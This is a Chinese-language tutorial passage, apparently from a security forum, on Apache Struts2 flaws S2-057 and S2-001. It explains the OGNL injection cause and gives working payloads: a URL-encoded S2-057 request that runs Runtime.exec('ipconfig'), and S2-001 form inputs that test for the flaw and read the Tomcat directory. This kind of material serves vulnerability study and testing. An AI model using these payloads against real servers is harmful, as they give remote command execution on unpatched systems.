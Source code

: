 ### 3.1 S2-057远程代码执行漏洞

![image-20210707161420877](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8898d443a4475517495f700b7ad876f4b33e3751.png)

#### 对该页面进行抓包

![image-20210707162017929](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9cb1b7368c870fd734e5c4c33ffb2deba8ae4578.png)

#### 验证漏洞是否存在，poc如下:

```php
/%24%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23a%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%27ipconfig%27%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23a.getInputStream%28%29%29%29%7D/actionChain1.action
```

![image-20210707164954020](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3accb46b2c4c36177936e59017fefd42ddc25599.png)

### 3.2 S2-001远程执行代码漏洞

#### 漏洞原理：

##### 该漏洞因用户提交表单数据且验证失败时，后端会将用户之前提交的数据使用OGNL表达式%{value}进行解析，然后重新填充到对应的表单数据中。如注册或登录页面，提交失败后一般会默认返回之前提交的数据，由于后端使用%{value}对提交的数据执行了一次OGNL表达式解析，所以可以直接构造Payload进行命令执行。

#### 影响版本：

```php
Struts 2.0.0 - 2.0.8
```

##### 验证漏洞是否存在，输入

```php
%{'zcc'}
```

##### 返回zcc就是存在该漏洞

![image-20210708095826223](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c1f475176a08b1ae45bc2e3e104ed3171cf32063.png)

![image-20210708095804739](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e572fe3824358ca7c10f45495d24b3339f432c4b.png)

##### 构造poc，填入password框：

```php
Poc获取tomcat路径：
%{&quot;tomcatBinDir{&quot;+@java.lang.System@getProperty(&quot;user.dir&quot;)+&quot;}&quot;}
```
